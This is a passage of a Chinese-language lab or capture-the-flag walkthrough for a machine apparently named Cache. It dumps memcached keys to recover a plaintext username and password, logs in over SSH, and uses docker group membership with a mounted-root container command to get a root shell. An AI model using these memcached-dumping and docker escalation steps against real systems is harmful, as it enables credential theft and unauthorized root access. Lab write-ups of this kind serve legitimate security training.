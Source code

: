 ![image-20200626071403371]({{ site.url }}/assets/Cache_188.assets/image-20200626071403371.png)

只有一个项目，dump项目1所有的键，`stats cachedump 1 0`

![image-20200626071747551]({{ site.url }}/assets/Cache_188.assets/image-20200626071747551.png)

`get user`读取`user`键的值

![image-20200626071916619]({{ site.url }}/assets/Cache_188.assets/image-20200626071916619.png)

同样，`get passwd`读取passwd键的值

![image-20200626072110515]({{ site.url }}/assets/Cache_188.assets/image-20200626072110515.png)

得到凭证

```bash
luffy:0n3_p1ec3
```

尝试ssh登录

![image-20200626072318797]({{ site.url }}/assets/Cache_188.assets/image-20200626072318797.png)

同时发现luffy是docker组成员，可以直接gtfobins利用。

`docker images`列出所有docker镜像

![image-20200626072954374]({{ site.url }}/assets/Cache_188.assets/image-20200626072954374.png)

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

![image-20200626073050413]({{ site.url }}/assets/Cache_188.assets/image-20200626073050413.png)

![image-20200626073141752]({{ site.url }}/assets/Cache_188.assets/image-20200626073141752.png)

